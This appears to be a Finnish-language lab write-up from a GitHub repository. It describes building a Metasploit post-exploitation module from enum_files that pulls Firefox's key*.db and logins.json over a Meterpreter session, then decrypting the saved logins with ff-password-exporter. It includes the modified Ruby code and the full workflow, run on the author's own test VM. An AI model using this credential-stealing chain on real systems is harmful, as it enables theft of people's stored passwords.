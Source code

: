# Metasploit moduuli firefox salasanojen varastukseen.

## Esittely

Tässä on dokumentaatio metasploit moduulista, jonka tarkoitus on varastaa meterpreter yhteyden kautta Firefoxin salasana tiedostot.  
Moduuli on rakennettu enum_files pohjalta ja on kokonaisuudessaan melko yksinkertainen.
Tein mielummin oman moduulin enum_files pohjalta, sillä valmis firefox_cred moduuli lataa paljon ylimääräistä tavaraa ja halusin pitää liikenteen minimaalisena.  


Työkaluina käytin Armitagea moduulin käyttämiseen, Virtualboxia testikoneen pyörittämiseen ja Virtualboxissa aikaisemmassa dokumentissa luotua testikonetta, sekä atomia moduulin tekemiseen.
Käytettyyn testikoneeseen oli valmiiksi syötetty kaksi pseudo käyttäjätunnusta ja salasanaa, jotta moduuli oikeasti hakisin jotain kohteesta.
Koska moduulia käytetään meterpreter yhteyden kautta, niin piti virustorjunnat ottaa pois päältä, että yhteys toimisi ja moduulia pystyisi käyttämään.

## Moduulin rakennus

Aikaisemmassa dokumentaatiossa kävi ilmi, että Firefox säilyttää tallennettuja salasanoja kahdessa tiedostossa, joista toinen on logins.json, jossa Firefox säilyttää itse tunnukset ja salasanat, sekä key*.db jossa Firefox säilyttää avainta jolla salasanat on kryptattu. 
Tarvitsemme siis molemmat tiedostot, jos haluamme avata salasanat.
  
Aloin tutkimaan miten saisin haettua tiedostot helposti, kun törmäsin metasploitissa olevaan post exploittiin nimeltä **enum_files**. Enum_filesilla pystyi hakemaan tietyltä kovalevyltä kaikki tiedostot, jotka vastasivat hakuun annettua tiedoston nimeä.  
Testasin enum_filesin toimintaa antamalla haettavaksi tiedostoksi key*.db. Tähtimerkinnällä viitataan siihen, ettei tiedetä mikä numero key*.db tiedoston nimessä on, joten moduuli hakee kaikki kuvaukseen sopivat tiedostot. Firefoxissa tosin pitäisi olla vain yksi key*.db per profiili, joten tämä ei tuota ongelmia. Haettavaksi kohteeksi asetin koko C:/ aseman. 

![Haku ikkuna](https://github.com/Tommi852/virustestaus/raw/master/media/enum_files_original.png)

![Haku komentorivillä](https://github.com/Tommi852/virustestaus/raw/master/media/Enum_files_haku.png)
  
Enum_files löysikin firefoxin key*.db tiedoston ja latasi sen. Moduulissa oli tosin ongelmana se, että se osasi ladata vain yhden tiedoston kerrallaan. Kokeilin erilaisia tapoja saada sitä lataamaan useamman tiedoston, kuten antamalla haettavaksi kohteeksi **key*.db && logins.json**, mutta tuloksetta. Näin ollen päätin, että minun pitää kustomoida moduulin koodia, jotta se toimii niinkuin haluan.

 
 
Enum_filesin koodi on kirjoitettu Rubylla ja se löytyy polusta: /usr/share/metasploit-framework/modules/post/windows/gather/enum_files.rb. Polku voi vaihdella, jos metasploit on rakennettu toiselle distrolle tai githubin kautta. 
  
Kopioin enum_files.rb tiedoston polkuun: ~/.msf4/modules/post/windows/gather/, joka on tarkoitettu nimenomaan metasploit moduulien kehittämistä varten ja kolmannen osapuolen moduuleja varten.  
Koska en osaa Rubya, niin koodin tutkiminen ja joten kuten ymmärtäminen tuotti hieman vaikeuksia, mutta lukuisten kokeilujen jälkeen löysin melko yksinkertaisen tekniikan, jolla sain enum_filesin hakemaan kaksi eri tiedostoa kohteesta.
  
Aluksi lisäsin register_options kohtaan uuden asetuksen, johon asetin haettavaksi logins.jsonin.
```
    register_options(
      [
        OptString.new('SEARCH_FROM', [ false, 'Search from a specific location. Ex. C:\\', 'C:/']),	# Tämä kertoo mistä levyltä haetaan.
        OptString.new('FILE_GLOBS',  [ true, 'Filename for decrypt file. Ex. key3.db', 'key*.db']),	# Tämä kertoo tiedoston, jota etsitään kohteesta.
        OptString.new('FILE_GLOBS2',  [ true, 'File name for logins file. Ex. logins.json', 'logins.json'])	# Tämä on itse lisäämäni kopio ylemmästä vaihtoehdosta toiselle tiedostolle.
      ])
```
Tämän jälkeen loin koodin uudelle FILE_GLOBS2 vaihtoehdolle, että sekin haetaan kohteesta:
```
    datastore['FILE_GLOBS2'].split(",").each do |glob|
      begin
        download_files(location, glob.strip)
      rescue ::Rex::Post::Meterpreter::RequestError => e
        if e.message =~ /The device is not ready/
          print_error("#{my_drive} drive is not ready")
          next
        elsif e.message =~ /The system cannot find the path specified/
          print_error("Path does not exist")
          next
        else
          raise e
        end
      end
    end
```
Koodi on siis täysin sama, kuin mikä oli FILE_GLOBS vaihtoehdolle, mutta eri datastorella.  
Tämä ei ole puhtain tai optimaalisin tapa toimia, sillä nyt koodi hakee uudestaan kovalevyltä tätä tosita tiedostoa ja lataa sitten sen, vaikka tiedostot ovat täysin samassa polussa. Jouduin kutienkin tyytymään tähän ratkaisuun, sillä en ymmärrä tarpeeksi Rubya, että osaisin rakentaa tämän optimaalisemmaksi ja näin tämä toimii.

![FirefoxVaras ikkuna](https://github.com/Tommi852/virustestaus/raw/master/media/FirefoxVaras_ikkuna.png)

![FirefoxVaras komentorivillä](https://github.com/Tommi852/virustestaus/raw/master/media/FirefoxVaras.png)

  
Kokonaisuudessaan moduuli löytyy täältä: https://github.com/Tommi852/virustestaus/blob/master/moduuli/firefoxVaras.rb

## Tiedostojen purku.

Moduulin lataamat tiedostot menevät kansioon polussa: ~/.msf4/loot ja ovat hieman kryptisillä nimillä.  
Tiedostojen nimistä käy ilmi latausaika, IP-osoite josta ladattu, sekä tiedosto pääte. Tiedosto päätteissä on pieni ongelma, sillä koodi ei osaa nimetä .json tiedostoa samalla nimellä vaan muuttaa sen .bin nimiseksi tiedostoksi. Kansiosta löytyy kaksi kumpaakin tiedostoa, eli .db ja .bin tiedostoa on kumpaakin kaksi kappaletta. Tämä johtuu todennäköisesti siitä, että koneelta löytyy kaksi kertaa nämä tiedostot OpenSSH:n luoman linkin kautta.  
Näin ollen muutin tiedostojen nimet hieman ymmärrettäviksi. Nimesin yhden .db tiedoston key4.db tiedostoksi ja yhden .bin tiedoston logins.json tiedostoksi.  
  
Kopioin kummatkin tiedostot uuteen kansioon kotihakemistossa nimeltä "purku", jossa aijon purkaa nämä tiedostot oikeiksi salasanoiksi. Koska purkaminen olisi käsin melko työlästä, niin käytin apuna firefox_decrypt.py skriptiä, joka löytyy sen kehittäjän githubista osoitteesta: https://github.com/unode/firefox_decrypt  
Nopealla silmäilyllä koodi ei näytä haitalliselta itselleni.
  
Tiedostojen purkamisen piti onnistua komennolla: **python firefox_decrypt.py purku/**, mutta itse sain virheeksi: **ERROR - Couldn't initialize NSS, maybe '/root/purku' is not a valid profile?**  
Tiedosto polku oli oikein, mutta ilmeisesti skripti olisi halunnut myös profile.ini tiedoston mukaan purkamiseksi. Kokeilin erilaisia tekniikoita, kuten NSS uudelleen asennuksen, mutta nämä eivät auttaneet.  
Lopuksi löysin firefox_decryptistä tehdun forkin nimeltä ff-password-exporter, joka löytyy osoitteesta: https://github.com/kspearrin/ff-password-exporter
  
Ff-password-exporter, jolla oli mainittu erikseen, että se tukee Firefox58+ versioissa käytettyjä key4.db profiileja. Ff-password-exporter on firefox_decrypt.py pohjautuva spin-offi, jossa on graafinen käyttöliittymä.  
Ff-password-exporterin käyttö oli erittäin suoraviivaista. Ohjelmalle piti aluksi antaa suoritus oikeudet, joka onnistuu esimerkiksi klikkaamalla oikealla kuvaketta ja laittamalla ruksin execute kohtaan permissions välilehdellä.  
Tämän jälkeen ohjelman pystyi suorittamaan ja ohjelmasta valittiin vain kansio, jossa key4.db ja logins.json ovat. Koska käytössä ei ollut master passwordia, niin voi kentän jättää tyhjäksi.  

![FF-password-exporter ikkuna](https://github.com/Tommi852/virustestaus/raw/master/media/FF-password-exporter.png)

Tämän jälkeen ohjelma kysyy mihin kansioon tulokset halutaan tallentaa ja missä muodossa (json tai CSV).  
Tiedostossa näkyvät purkamisen jälkeen salasanat ja käyttäjätunnukset selkokielisenä.

![Puretut salasanat](https://github.com/Tommi852/virustestaus/raw/master/media/salasanat_purettu.png)




